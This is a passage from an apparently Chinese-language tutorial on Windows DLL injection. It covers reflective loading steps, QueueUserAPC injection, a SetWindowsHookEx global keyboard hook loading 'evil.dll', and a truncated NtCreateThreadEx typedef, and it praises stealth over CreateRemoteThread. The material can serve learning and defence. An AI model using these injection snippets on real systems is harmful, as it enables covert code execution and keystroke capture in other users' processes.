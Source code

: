 ```c
// 不使用 LoadLibrary
// 1. 读取 PE 文件
// 2. 分配内存
// 3. 复制 PE 节
// 4. 处理导入表
// 5. 处理重定位
// 6. 调用入口点

→ 参考技术 #13: Reflective DLL Injection
```

### 2. QueueUserAPC 注入

**替代 CreateRemoteThread**:

```c
// 1. 打开目标进程
// 2. 枚举所有线程
// 3. 对每个线程：
HANDLE hThread = OpenThread(THREAD_SET_CONTEXT, FALSE, threadId);
QueueUserAPC((PAPCFUNC)pLoadLibrary, hThread, (ULONG_PTR)dllPath);

// APC 在线程进入可警报状态时执行
```

**优势**:
- 不创建新线程
- 更隐蔽

**劣势**:
- 需要线程进入可警报状态
- 不一定立即执行

### 3. SetWindowsHookEx 注入

**利用消息钩子**:

```c
HMODULE hDll = LoadLibrary("evil.dll");
HOOKPROC proc = (HOOKPROC)GetProcAddress(hDll, "HookProc");

// 全局钩子会将 DLL 加载到所有匹配进程
SetWindowsHookEx(WH_KEYBOARD, proc, hDll, 0);
```

**限制**:
- 仅适用于 GUI 进程
- 需要消息循环
- 目标必须处理相应消息

### 4. NtCreateThreadEx 注入

**使用未文档化的 NT API**:

```c
typedef NTSTATUS (NTAPI *pNtCreateThreadEx)(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    HANDLE ProcessHandle,
    PVOID StartRoutine,
    PVOID Argument,
    ULONG CreateFlags,
    SIZE_T ZeroBits,
    SIZE_T StackSize,
    SIZE_T MaximumStackSize,
    PVOID AttributeList
```
